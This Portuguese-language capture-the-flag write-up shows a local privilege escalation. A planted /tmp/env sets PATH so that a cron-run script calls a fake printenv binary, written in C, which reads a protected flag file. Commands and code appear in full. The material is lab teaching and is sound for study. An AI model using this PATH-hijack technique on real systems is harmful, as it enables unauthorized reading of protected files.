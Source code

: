 # British Punctuality

Verificamos que não temos permissão para abrir diretamente o ficheiro `flags/flag.txt`, mas o utilizador "flag_reader" tem:

![CTF Opcional 1 a](../img/ctfopcional1a.png)

No diretório "/tmp" existe um ficheiro "last_log.txt" que é atualizado todos os minutos, com permissões de flag_reader, através do **cronscript** (/etc/cron.d/mycronscript) seguinte:

```note
* * * * * flag_reader /bin/bash -c "/home/flag_reader/my_script.sh > /tmp/last_log"
```

Inicialmente, o conteúdo de `last_log ` é o seguinte:

```note
SHELL=/bin/sh
PWD=/home/flag_reader
LOGNAME=flag_reader
HOME=/home/flag_reader
SHLVL=2
PATH=/bin:/usr/bin:/usr/local/bin
_=/bin/printenv
I'm going to check if the flag exists!
File exists!!
TODO - Implement this in the near future!
```

Quando o **cronscript** é executado, este por sua vez executa `/home/flag_reader/my_script.sh`, e o output é guardado em `/tmp/last_log`. O conteúdo de `my_script.sh` é o seguinte:

```bash
#!/bin/bash

if [ -f "/tmp/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /tmp/env | /usr/bin/xargs)
    rm /tmp/env
fi

printenv
exec /home/flag_reader/reader
```

Podemos observar que, se o ficheiro `/tmp/env` existir, vai ser executado o seu conteúdo como um comando shell usando **xargs**. Posteriormente, serão impressas as variáveis de ambiente através do **printenv**. Assim, podemos alterar a variável de ambiente PATH (para apontar para o diretório com um printenv controlado por nós), colocando o seguinte texto no ficheiro `/tmp/env`:

```note
export PATH=/tmp/myenv/
```

Criando o diretório `/tmp/myenv/`, podemos criar dentro dele um binário printenv que execute um código controlado por nós:

```bash
$ mkdir myenv
$ cd myenv
$ touch printenv.c
```

Este ficheiro c terá o código que mostra a flag:

```c
#include <stdlib.h>
#include <string.h>
int main() {
    char command[25]="cat ../../flags/flag.txt"; 
    system(command); 
    return 0;
}
```

Este código é colocado em printenv.c linha a linha da seguinte forma:

```bash
echo "linha" >> printenv.c
```

No final compilamos o código:

```bash
$ gcc -Wall -o printenv printenv.c
```

Finalmente, esperamos uma nova execução de `my_script.sh` através do script do cron. Este executou tal como previsto, porque em vez de escrever as variáveis de ambiente acabou por escrever a flag em `last_log`:

![CTF Opcional 1 b](../img/ctfopcional1b.png)
